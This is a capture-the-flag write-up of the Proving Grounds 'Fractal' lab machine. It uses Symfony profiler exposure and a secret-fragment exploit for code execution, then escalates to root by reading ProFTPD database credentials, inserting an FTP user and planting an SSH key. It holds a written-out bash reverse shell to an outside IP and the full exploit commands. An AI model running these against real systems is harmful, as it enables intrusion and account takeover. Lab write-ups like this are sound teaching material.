 ```yaml
---
title: "Proving grounds Play: Fractal"
layout: post
date: 2023-10-14 02:00
categories: writeup
---
```


Proving grounds Practice - Fractal CTF writeup.

## Nmap

```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/app_dev.php /app_dev.php/*
|_http-title: Welcome!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 21/tcp open  ftp - ProFTPD

Nothing in here...!

## 80/tcp open  http - Apache httpd 2.4.41 ((Ubuntu))

http://192.168.187.233/

```text
# symfony 3.4 robots.txt
User-agent: *
Disallow: /app_dev.php
Disallow: /app_dev.php/*
```
http://192.168.187.233/app_dev.php

Upon visiting the URL at the bottom of the page there are several options and informations disclosed. The website is using Symfony 3.4.46 which is vulnerable to [Remote Code Execution](https://github.com/ambionics/symfony-exploits).

## Exploitation

Click on the button in the `http://192.168.187.233/app_dev.php` page and which will show an URL where it fetches configuration files. In order to successfully exploit the vulnerabiltiy the `secret` should be obtained from the `app/config/parameters.yml` file.

Visit the below URL to obtain the secret.

```text
http://192.168.187.233/app_dev.php/_profiler/open?file=app/config/parameters.yml
```

**Running Exploit**

```sh
naveenj@hackerspace:|22:50|~/proving_grounds/Fractal/exploit/symfony-exploits$ python3 secret_fragment_exploit.py http://192.168.187.233/_fragment -s 48a8538e6260789558f0dfe29861c05b
The URL /_fragment returns 403, cool

Trying 4 mutations...
  (OK) sha256 48a8538e6260789558f0dfe29861c05b http://192.168.187.233/_fragment 404 http://192.168.187.233/_fragment?_path=&_hash=pJg5Iqk0DEkiGH%2B9AiIFPmO6KY7EtvD64sHvSReQyfA%3D

Trying both RCE methods...
  Method 1: Success!

PHPINFO: http://192.168.187.233/_fragment?_path=_controller%3Dphpinfo%26what%3D-1&_hash=4qF0rPIIXEuWrV%2FrR3ubq%2B%2B%2FSyIj1GyfHi%2FIChKUtFM%3D
RUN: secret_fragment_exploit.py 'http://192.168.187.233/_fragment' --method 1 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.187.233/_fragment' --function phpinfo --parameters what:-1
```

**Verify remote code execution**

```sh
naveenj@hackerspace:|23:05|~/proving_grounds/Fractal/exploit/symfony-exploits$ python3 secret_fragment_exploit.py 'http://192.168.187.233/_fragment' --method 2 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.187.233/_fragment' --function system --parameters "id"
```

![img](/assets/images/CTF/Proving_Grounds/Fractal/rce.png)

**Obtain reverse shell**

```sh
naveenj@hackerspace:|23:05|~/proving_grounds/Fractal/exploit/symfony-exploits$ python3 secret_fragment_exploit.py 'http://192.168.187.233/_fragment' --method 2 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.187.233/_fragment' --function system --parameters "bash -c '/bin/bash -i >& /dev/tcp/192.168.45.245/80 0>&1'"
```

```sh
naveenj@hackerspace:|05:53|~/proving_grounds/Fractal/exploit/symfony-exploits$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.242] from (UNKNOWN) [192.168.187.233] 36306
bash: cannot set terminal process group (1012): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fractal:/var/www/html/web$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

As shown in the Nmap results there is a FTP service proftpd is running on port 21 with the mysql module enabled `/etc/proftpd/sql.conf`. We can create new user or add user `benoit` to the service which will give access to user benoit account. 

```sh
www-data@fractal:/etc/proftpd$ ll
total 1.4M
4.0K drwxr-xr-x 107 root root 4.0K Sep 27  2022 ..
4.0K -rw-r--r--   1 root root 2.9K Sep 27  2022 modules.conf
4.0K drwxr-xr-x   3 root root 4.0K Sep 27  2022 .
8.0K -rw-r--r--   1 root root 5.7K Sep 27  2022 proftpd.conf
4.0K -rw-r--r--   1 root root 1.2K Sep 27  2022 sql.conf    #sql config file
4.0K -rw-r--r--   1 root root 2.1K Sep 27  2022 tls.conf
4.0K -rw-r--r--   1 root root  832 Sep 27  2022 virtuals.conf
4.0K -rw-------   1 root root  701 Sep 27  2022 ldap.conf
1.3M -rw-r--r--   1 root root 1.3M Feb 27  2020 blacklist.dat
4.0K drwxr-xr-x   2 root root 4.0K Feb 27  2020 conf.d
 12K -rw-r--r--   1 root root 9.2K Feb 27  2020 dhparams.pem
www-data@fractal:/etc/proftpd$
```

The `sql.conf` has database credentials, extratct the credentials and login via mysql.

```conf
# used to connect to the database 
# databasename@host database_user user_password 
SQLConnectInfo proftpd@localhost proftpd protfpd_with_MYSQL_password
```

Credentials = `proftpd:protfpd_with_MYSQL_password`

```sh
www-data@fractal:/etc/proftpd$ mysql -uproftpd -pprotfpd_with_MYSQL_password
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

Please refer [here](https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf) for more info on creating user for proftpd using mysql.

### Adding User

Use the below to generate the password.

```sh
/bin/echo "{md5}"`/bin/echo -n "password" | openssl dgst -binary -md5 | openssl enc -base64`
```

**Updating table**

```sh
mysql> select * from ftpuser;
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
| id | userid | passwd                        | uid | gid | homedir       | shell         | count | accessed            | modified            |
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
|  1 | www    | {md5}RDLDFEKYiwjDGYuwpgb7Cw== |  33 |  33 | /var/www/html | /sbin/nologin |     0 | 2022-09-27 05:26:29 | 2022-09-27 05:26:29 |
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
1 row in set (0.00 sec)

mysql> INSERT INTO `ftpuser` (`id`, `userid`, `passwd`, `uid`, `gid`, `homedir`, `shell`, `count`, `accessed`, `modified`)
    -> VALUES (NULL, 'benoit', '{md5}X03MO1qnZdYdgyfeuILPmQ==', '1000', '1000', '/', '/bin/bash', '0', '2023-10-14 05:26:29', '2023-10-14 05:26:29');   #query to add user
Query OK, 1 row affected (0.00 sec)

mysql> select * from ftpuser;
+----+--------+-------------------------------+------+------+---------------+---------------+-------+---------------------+---------------------+
| id | userid | passwd                        | uid  | gid  | homedir       | shell         | count | accessed            | modified            |
+----+--------+-------------------------------+------+------+---------------+---------------+-------+---------------------+---------------------+
|  1 | www    | {md5}RDLDFEKYiwjDGYuwpgb7Cw== |   33 |   33 | /var/www/html | /sbin/nologin |     0 | 2022-09-27 05:26:29 | 2022-09-27 05:26:29 |
|  2 | benoit | {md5}X03MO1qnZdYdgyfeuILPmQ== | 1000 | 1000 | /             | /bin/bash     |     0 | 2023-10-14 05:26:29 | 2023-10-14 05:26:29 |
+----+--------+-------------------------------+------+------+---------------+---------------+-------+---------------------+---------------------+
2 rows in set (0.00 sec)
```

## 21/tcp open  ftp - ProFTPD
 
Login to ftp using `benoit:password`.

Direct to user `benoit` directory and create .ssh folder. Download the local machine public ssh key `id_rsa.pub` as authorized_keys into the attacking machine via ftp.

```sh
ftp> cd benoit
250 CWD command successful
ftp> mkdir .ssh
257 "/home/benoit/.ssh" - Directory successfully created
ftp> ls
229 Entering Extended Passive Mode (|||56047|)
150 Opening ASCII mode data connection for file list
-r--r--r--   1 benoit   benoit         33 Oct 15 09:44 local.txt
226 Transfer complete
ftp> cd .ssh
250 CWD command successful
ftp> put authorized_keys 
local: authorized_keys remote: authorized_keys
229 Entering Extended Passive Mode (|||60851|)
150 Opening BINARY mode data connection for authorized_keys
100% |***********************************************************************************************************************************************************************************************|   573       10.50 MiB/s    00:00 ETA
226 Transfer complete
573 bytes sent in 00:00 (1.71 KiB/s)
ftp> 
```

Now SSH to the user `benoit` and run executable permissions list command.

```sh
$ whoami
benoit
$ id
uid=1000(benoit) gid=1000(benoit) groups=1000(benoit)
$ sudo -l
Matching Defaults entries for benoit on fractal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User benoit may run the following commands on fractal:
    (ALL) NOPASSWD: ALL
```

The user is allowed to run ALL. Use `sudo su` to escalate privileges.

```sh
$ sudo su
root@fractal:/home/benoit# id
uid=0(root) gid=0(root) groups=0(root)
root@fractal:/home/benoit# 
```

**Root Obtained**

## Reference

- [https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf](https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).